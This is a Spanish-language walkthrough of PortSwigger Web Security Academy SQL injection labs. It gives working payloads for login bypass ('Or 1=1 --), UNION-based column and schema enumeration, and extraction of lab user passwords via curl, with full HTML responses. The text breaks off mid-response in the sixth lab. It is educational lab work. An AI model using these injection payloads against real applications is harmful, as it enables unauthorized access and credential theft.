







<p align="center">
  <kbd><b>DRINUX CYBERSEGURIDAD</b></kbd>
</p>

<h1 align="center">Reporte Seccion SQLI-UNION</h1>
<h2>Auditor:Drx===Gustavo Gutierrez Sanchez</h2>

<p align="center">

 **Laboratorio:**  SQL Injection (UNION Attack) - Lab #1 <br>
 **Platforma:**  PortSwigger Web Security Academy 
</p>

### Solucion

Se ingresa al laboratorio y se identifica directamente el parametro vulnerable en este caso el mismo problema hace mension sobre el parametro

```ini
web-security-academy.net/filter?category=Gifts
```
Se procede a romper la sintaxis Sql esto pasa ya que al tener una consulta con parametros del tipo string se genera una consulta de esta forma en el motorsql

```Sql
Select * From products WHERE category='Gifts'
```
Como se observa directamente si se integra una comilla dentro de esa consulta queda un caracter flotando y es lo que ocasiona el error de sintaxis en sql.

```Sql
Select * From products WHERE category='Gifts''
```
Ya verificada la vulnerabilidad podemos introducir ya cualquier tipo de clausulas

```Sql
Select * From products WHERE category='Gifts'Or 1=1 --'
```

```ini
https://web-security-academy.net/filter?category=Gifts%27Or%201=1%20--
```



<p align="center">

 **Laboratorio:**  SQL Injection (UNION Attack) - Lab #2 <br>
 **Platforma:**  PortSwigger Web Security Academy 
</p>

### Solucion

En este segundo laboratorio se nospide loguearnos dentro de la pagina sin credenciales asi que usaremos el operador matematico OR ya que se genera una consulta de este tipo  


```sql
Select username,password from users where username=''Or 1=1 --' AND password = 'loquesea'
```
como podemos observar rompemos la consulta del campo usuario e inyectamos un operador logico Or para que realize una comparacion de igualdad y comentamos el resto de la query esto es lo que permite accesar sin credenciales

```ini
'Or 1=1 --
```



<p align="center">

 **Laboratorio:**  SQL Injection (UNION Attack) - Lab #3 <br>
 **Platforma:**  PortSwigger Web Security Academy 
</p>

### Solucion 

Para este ejercicio primeramente enumeramos las columnas 

```ini
https://web-security-academy.net/filter?category=Lifestyle%27Order%20by%202%20--
```

para despues ver en que columna tenemos retorno de informacion en este caso el ejercicio pide retornar la version de la base de datos en oracle 

```ini
https://web-security-academy.net/filter?category=Lifestyle%27union%20select%20null,banner%20from%20v$version%20--
```

<p align="center">

 **Laboratorio:**  SQL Injection (UNION Attack) - Lab #4 <br>
 **Platforma:**  PortSwigger Web Security Academy 
</p>

### Solucion

Este laboratorio nos pide retornar la version de la base de datos asi que nuevamente vamos a enumerar las columnas y posteriormente retornamos la version hay que recordar que dentro de enternos mysql los comentarios se reproducen '-- -'


```ini
https://web-security-academy.net/filter?category=Pets%27union%20select%20null,null%20--%20-
```
Posteriormente extraemos el nombre de la version de la base de datos

```ini
https://web-security-academy.net/filter?category=Pets%27union%20select%20@@version,null%20--%20-
```


<p align="center">

 **Laboratorio:**  SQL Injection (UNION Attack) - Lab #5 <br>
 **Platforma:**  PortSwigger Web Security Academy 
</p>

### Solucion

En este laboratorio se nos pide enumerar completamente los usuarios de la base de datos para realizar este proceso seguimos este flujo de ejecucion.Ya confirmada que existe la vulnerabilidad sqli union el flujo de la inyeccion es el siguiente

1.-Enumerar las columnas.<br>
2.-Confirmamos el numero de columnas.<br>
3.-Verificamos en que columna hay retorno de informacion.<br>
4.-Extraemos nombres de las bases de datos.<br>
5.-Extraemos nombres de tablas.<br>
6.-Extraemos nombres de columnas.<br>
7.-Extraemos los campos usuario contraseña.<br>

Para realizar la inyeccion vamos a utilizar la herramienta **curl** esto para generar las peticiones desde la shell.

Confirmar la existencia de la vulnerabilidad. 
```ini
curl -s "web-security-academy.net/filter?category=Gifts%27"\|grep -q'Internal Server Error' && echo "No vuln" || echo "Vuln confirmada"
Vuln confirmada
```

1.-Enumeracion de columnas.

```ini
curl -s "https://0a50006b049812d98349055a009800bc.web-security-academy.net/filter?category=Gifts%27Order%20by%202%20--" | grep -q "Internal Server Error" && echo "Numero de columnas inexsistente" || echo "Numero de columnas existente"
Numero de columnas existente
```
2.-Confirmacion de numero de columnas

```ini
 curl -s "https://0a50006b049812d98349055a009800bc.web-security-academy.net/filter?category=Gifts%27union%20select%20null%2Cnull%20--" | grep -q "Internal Server Error" && echo "Numero de columnas inexistente" || echo "Numero de columnas existente"
Numero de columnas existente
```

3.-Verificar en que columna existe retorno de informacion.

```ini
curl -s "https://0a50006b049812d98349055a009800bc.web-security-academy.net/filter?category=Gifts%27union%20select%20version(),null%20--" | grep -q "PostgreSQL" && echo "La version es postgres" || echo "No es postgress"
La version es postgres
```
4.-Extraccion de la bases de datos.

```ini
curl -s "https://0a50006b049812d98349055a009800bc.web-security-academy.net/filter?category=Gifts%27union%20select%20null,schema_name%20from%20information_schema.schemata%20--" 
<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>SQL injection attack, listing the database contents on non-Oracle databases</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>SQL injection attack, listing the database contents on non-Oracle databases</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="ecommerce">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        
                    </section>
                    <section class="ecoms-pageheader">
                        <h1>Gifts&apos;union select null,schema_name from information_schema.schemata --</h1>
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a class="filter-category" href="/">All</a>
                        <a class="filter-category" href="/filter?category=Accessories">Accessories</a>
                        <a class="filter-category" href="/filter?category=Food+%26+Drink">Food & Drink</a>
                        <a class="filter-category" href="/filter?category=Gifts">Gifts</a>
                        <a class="filter-category" href="/filter?category=Lifestyle">Lifestyle</a>
                        <a class="filter-category" href="/filter?category=Toys+%26+Games">Toys & Games</a>
                    </section>
                    <table class="is-table-longdescription">
                        <tbody>
                        <tr>
                            <td>information_schema</td>
                        </tr>
                        <tr>
                            <td>public</td>
                        </tr>
                        <tr>
                            <th>Conversation Controlling Lemon</th>
                            <td>Are you one of those people who opens their mouth only to disco</td>
                        </tr>
                        <tr>
                            <th>High-End Gift Wrapping</th>
                            <td>We offer a completely unique gift wrapping experience - the gif</td>
                        </tr>
                        <tr>
                            <td>pg_catalog</td>
                        </tr>
                        <tr>
                            <th>Couple&apos;s Umbrella</th>
                            <td>Do you love public displays of affection? Are you and your part</td>
                        </tr>
                        <tr>
                            <th>Snow Delivered To Your Door</th>
                            <td>By Steam Train Direct From The North Pole
We can deliver you th</td>
                        </tr>
                        </tbody>
                    </table>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```

Y este es la base de datos que se va a enumerar **information_schema** comenzamos enumerando las tablas

5.-Enumeracion de las tablas

```ini
curl -s "https://web-security-academy.net/filter?category=Gifts%27union%20select%20null,table_name%20from%20information_schema.tables%20--"
```
Tabla a la cual vamos a extraer sus columnas
**users_bhnluj**

6.-Enumeracion de Columnas

```ini
curl -s "https://0a50006b049812d98349055a009800bc.web-security-academy.net/filter?category=Gifts%27union%20select%20null,column_name%20from%20information_schema.columns%20where%20table_name='users_bhnluj'%20--"
<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>SQL injection attack, listing the database contents on non-Oracle databases</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>SQL injection attack, listing the database contents on non-Oracle databases</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="ecommerce">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        
                    </section>
                    <section class="ecoms-pageheader">
                        <h1>Gifts&apos;union select null,column_name from information_schema.columns where table_name=&apos;users_bhnluj&apos; --</h1>
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a class="filter-category" href="/">All</a>
                        <a class="filter-category" href="/filter?category=Accessories">Accessories</a>
                        <a class="filter-category" href="/filter?category=Food+%26+Drink">Food & Drink</a>
                        <a class="filter-category" href="/filter?category=Gifts">Gifts</a>
                        <a class="filter-category" href="/filter?category=Lifestyle">Lifestyle</a>
                        <a class="filter-category" href="/filter?category=Toys+%26+Games">Toys & Games</a>
                    </section>
                    <table class="is-table-longdescription">
                        <tbody>
                        <tr>
                            <td>username_gkqtyl</td>
                        </tr>
                        <tr>
                            <td>password_oumori</td>
                        </tr>
                        <tr>
                            <th>Conversation Controlling Lemon</th>
                            <td>Are you one of those people who opens their mouth only to disco</td>
                        </tr>
                        <tr>
                            <th>High-End Gift Wrapping</th>
                            <td>We offer a completely unique gift wrapping experience - the gif</td>
                        </tr>
                        <tr>
                            <td>email</td>
                        </tr>
                        <tr>
                            <th>Couple&apos;s Umbrella</th>
                            <td>Do you love public displays of affection? Are you and your part</td>
                        </tr>
                        <tr>
                            <th>Snow Delivered To Your Door</th>
                            <td>By Steam Train Direct From The North Pole
We can deliver you th</td>
                        </tr>
                        </tbody>
                    </table>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```

Campos se van a extraer:**username_gkqtyl**,**password_oumori**

7.-Extraccion de campos usuario y password

```ini
curl -s "https://0a50006b049812d98349055a009800bc.web-security-academy.net/filter?category=Gifts%27union%20select%20username_gkqtyl,password_oumori%20from%20users_bhnluj%20--"
<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>SQL injection attack, listing the database contents on non-Oracle databases</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>SQL injection attack, listing the database contents on non-Oracle databases</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="ecommerce">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        
                    </section>
                    <section class="ecoms-pageheader">
                        <h1>Gifts&apos;union select username_gkqtyl,password_oumori from users_bhnluj --</h1>
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a class="filter-category" href="/">All</a>
                        <a class="filter-category" href="/filter?category=Accessories">Accessories</a>
                        <a class="filter-category" href="/filter?category=Food+%26+Drink">Food & Drink</a>
                        <a class="filter-category" href="/filter?category=Gifts">Gifts</a>
                        <a class="filter-category" href="/filter?category=Lifestyle">Lifestyle</a>
                        <a class="filter-category" href="/filter?category=Toys+%26+Games">Toys & Games</a>
                    </section>
                    <table class="is-table-longdescription">
                        <tbody>
                        <tr>
                            <th>Snow Delivered To Your Door</th>
                            <td>By Steam Train Direct From The North Pole
We can deliver you the perfect Christmas gift of all. Imagine waking up to that white Christmas you have been dreaming of since you were a child.
Your snow will be loaded on to our exclusive snow train and transported across the globe in time for the big day. In a few simple steps, your snow will be ready to scatter in the areas of your choosing.
*Make sure you have an extra large freezer before delivery.
*Decant the liquid into small plastic tubs (there is some loss of molecular structure during transit).
*Allow 3 days for it to refreeze.*Chip away at each block until the ice resembles snowflakes.
*Scatter snow.
Yes! It really is that easy. You will be the envy of all your neighbors unless you let them in on the secret. We offer a 10% discount on future purchases for every referral we receive from you.
Snow isn&apos;t just for Christmas either, we deliver all year round, that&apos;s 365 days of the year. Remember to order before your existing snow melts, and allow 3 days to prepare the new batch to avoid disappointment.</td>
                        </tr>
                        <tr>
                            <th>carlos</th>
                            <td>uk2z516qo5jtwc5m6flt</td>
                        </tr>
                        <tr>
                            <th>Couple&apos;s Umbrella</th>
                            <td>Do you love public displays of affection? Are you and your partner one of those insufferable couples that insist on making the rest of us feel nauseas? If you answered yes to one or both of these questions, you need the Couple&apos;s Umbrella. And possible therapy.
Not content being several yards apart, you and your significant other can dance around in the rain fully protected from the wet weather. To add insult to the rest of the public&apos;s injury, the umbrella only has one handle so you can be sure to hold hands whilst barging children and the elderly out of your way. Available in several romantic colours, the only tough decision will be what colour you want to demonstrate your over the top love in public.
Cover both you and your partner and make the rest of us look on in envy and disgust with the Couple&apos;s Umbrella.</td>
                        </tr>
                        <tr>
                            <th>wiener</th>
                            <td>tr6ir0tou7j98e6yu7yl</td>
                        </tr>
                        <tr>
                            <th>administrator</th>
                            <td>pul0n4r6zvuvbomql99d</td>
                        </tr>
                        <tr>
                            <th>Conversation Controlling Lemon</th>
                            <td>Are you one of those people who opens their mouth only to discover you say the wrong thing? If this is you then the Conversation Controlling Lemon will change the way you socialize forever!
When you feel a comment coming on pop it in your mouth and wait for the acidity to kick in. Not only does the lemon render you speechless by being inserted into your mouth, but the juice will also keep you silent for at least another five minutes. This action will ensure the thought will have passed and you no longer feel the need to interject.
The lemon can be cut into pieces - make sure they are large enough to fill your mouth - on average you will have four single uses for the price shown, that&apos;s nothing an evening. If you&apos;re a real chatterbox you will save that money in drink and snacks, as you will be unable to consume the same amount as usual.
The Conversational Controlling Lemon is also available with gift wrapping and a personalized card, share with all your friends and family; mainly those who don&apos;t know when to keep quiet. At such a low price this is the perfect secret Santa gift. Remember, lemons aren&apos;t just for Christmas, they&apos;re for life; a quieter, more reasonable, and un-opinionated one.</td>
                        </tr>
                        <tr>
                            <th>High-End Gift Wrapping</th>
                            <td>We offer a completely unique gift wrapping experience - the gift that just keeps on giving. We can crochet any shape and size to order. We also collect worldwide, we do the hard work so you don&apos;t have to.
The gift is no longer the only surprise. Your friends and family will be delighted at our bespoke wrapping, each item 100% original, something that will be talked about for many years to come.
Due to the intricacy of this service, you must allow 3 months for your order to be completed. So. organization is paramount, no leaving shopping until the last minute if you want to take advantage of this fabulously wonderful new way to present your gifts.
Get in touch, tell us what you need to be wrapped, and we can give you an estimate within 24 hours. Let your funky originality extend to all areas of your life. We love every project we work on, so don&apos;t delay, give us a call today.</td>
                        </tr>
                        </tbody>
                    </table>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```
copiamos las credenciales y accesamos como administradores


<p align="center">

 **Laboratorio:**  SQL Injection (UNION Attack) - Lab #6 <br>
 **Platforma:**  PortSwigger Web Security Academy 
</p>

### Solucion 

1.-Enumeracion de columnas

```ini
curl -s "https://0a1300a904f3805980ec08d0001a00df.web-security-academy.net/filter?category=Lifestyle%27union%20select%20null,null%20from%20dual%20--"
<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>SQL injection attack, listing the database contents on Oracle</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>SQL injection attack, listing the database contents on Oracle</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="ecommerce">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        
                    </section>
                    <section class="ecoms-pageheader">
                        <h1>Lifestyle&apos;union select null,null from dual --</h1>
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a class="filter-category" href="/">All</a>
                        <a class="filter-category" href="/filter?category=Corporate+gifts">Corporate gifts</a>
                        <a class="filter-category" href="/filter?category=Food+%26+Drink">Food & Drink</a>
                        <a class="filter-category" href="/filter?category=Lifestyle">Lifestyle</a>
                        <a class="filter-category" href="/filter?category=Pets">Pets</a>
                        <a class="filter-category" href="/filter?category=Toys+%26+Games">Toys & Games</a>
                    </section>
                    <table class="is-table-longdescription">
                        <tbody>
                        <tr>
                            <th>Balance Beams</th>
                            <td>If you&apos;ve ever been stuck in a traffic jam I expect you&apos;ve been jealous to look up and see those brave youngsters doing their freerunning and parkour overhead. No waiting around for them, always first to the office on a bad traffic day.
With our innovative Balance Beams, you can now escape the daily rat race and head up there with the rest of them. No need to spend months in training and age is not a barrier with these handy foldaway planks of wood. Just head up to the roof of your building, unfold them to the length of the space you need to traverse and off you go.
Fully adjustable you will be able to travel a distance of up to 20 meters. The complete kit comes with a handy foldaway parachute for those extra windy days, and a neat little canvas bag for when they&apos;re not in use. Each plank is treated with a special non-slip coating to give extra strength and durability. We do recommend not wearing flip-flops or any other open-toe shoes while in use.
Be the adventurer you&apos;ve always wanted to be, but do it safely. T&amp;C&apos;s apply, third-party insurance recommended, use at the owners own risk.</td>
                        </tr>
                        <tr>
                            <th>Hitch A Lift</th>
                            <td>There was a time when we all thought by car sharing we were helping to save our planet. Even this is an outdated convention, and things have rapidly moved on. We would like to reduce the number of cars on the road even further, aiming one day for it to be none at all.
This is where we come in, our new &apos;Hitch A Lift&apos; harness is the future of commuting, improving life on earth, and boosting our own health and fitness in the process. Just strap on a buddy and use what God gave you to get yourselves to work.
One of you might be stronger than the other, but you can still take it in turns as our harness can be attached, and unattached, in seconds. There is a maximum recommended weight of 224 lbs so choose your hitch buddy wisely.
It is important that the weaker of the two get some practice in, you don&apos;t want to lose muscle power by not using those legs and upper body strength for long periods of time. Say goodbye to traffic jams and pollution, hitch up with a buddy today.</td>
                        </tr>
                        <tr>
                            <th>Inflatable Holiday Home</th>
                            <td>Forget your oversized Winnebagos, no need for trailers or tents either, welcome to the first ever inflatable holiday home.
What a genius idea. Inflates in 30 minutes and you&apos;re in. Folds down to the size of a large suitcase, so plenty of room in your vehicle for all those interior home comforts. Best of all is the size, it is the size of a regular house. No need for bunks, plenty of room to stretch your legs, and enjoy a real home away from home.
All furniture, beds, the couch etc. are fully integrated. When the house goes up so do they. The kids will never get bored as they bounce all over the house, and fall asleep in their roomy beds.
Traveling abroad couldn&apos;t be easier, you no longer need to drive your mobile home, you can now fly with one of these beauts in a suitcase. The world is your Oyster, take a month off and explore our great lands. If you purchase one today you will also get two extra puncture repair kits for free, ensuring peace of mind throughout your journey. Get ahead of all your friends, and enjoy the enviable looks along the way.</td>
                        </tr>
                        <tr>
                            <th>Safety First</th>
                            <td>Here at Safety First, we have a dedicated team who work tirelessly to allay your fears and keep your loved ones free from harm.
One of the biggest concerns we hear about is road safety and children. Once they start taking themselves to and from school the parents can&apos;t settle for fear they might meet with a road traffic accident. We have spent the last ten years addressing this issue, and now we have the infrastructure in place for this never to be a concern again.
